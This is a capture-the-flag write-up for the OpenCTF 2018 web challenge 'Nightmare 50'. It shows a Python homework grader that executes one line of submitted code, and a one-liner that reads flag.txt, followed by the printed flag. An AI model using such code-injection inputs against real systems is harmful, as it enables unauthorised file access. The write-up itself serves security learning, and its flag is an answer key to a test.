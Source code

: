 ```yaml
---
layout: post
title: "OpenCTF : Nightmare 50"
author: aagallag
date: 2018-08-12 13:27:00 -0700
slug: nightmare50
category:
- 2018
- openctf
---
```

**Category:** Web

**Points:** 50

**Description:**

```
Automated home work scoring my ass. https://shades-of-nightmare.openctf.com/nzpoixyucvkjwnerntasdfascdvasdfqwerqwe/nightmare-50/
```

When connecting to this website in my browser, I receive the following prompt:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
```

So it looks like this will execute the Python code you provide.  So I test it with the following:

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print('Hello world')
Hello world
```

And then it immediately closes the connection.  So it looks like it only allows a single line of Python code.

I then decide to try and dump the working directory file contents.  This can be done with `os.listdir('.')`, however, this would require a call to `import os`.  Unfortunately, it appears some or all imports are blocked, as an error was returned.  So instead, I decide to just guess that there exists a file either called `flag.txt` or `flag` in the working directory, and luckily, opening and reading files doesn't require any imports.  So I construct a one-liner to do just that: `print(open('flag.txt','r').read())`.

```
Welcome to Doctor Professor Wilson's Python 101!
Lesson 1: hello world
Enter homework for grading:
print(open('flag.txt','r').read())
ThisIsAVeryFl@ggyFlag
```

# Flag
**ThisIsAVeryFl@ggyFlag**
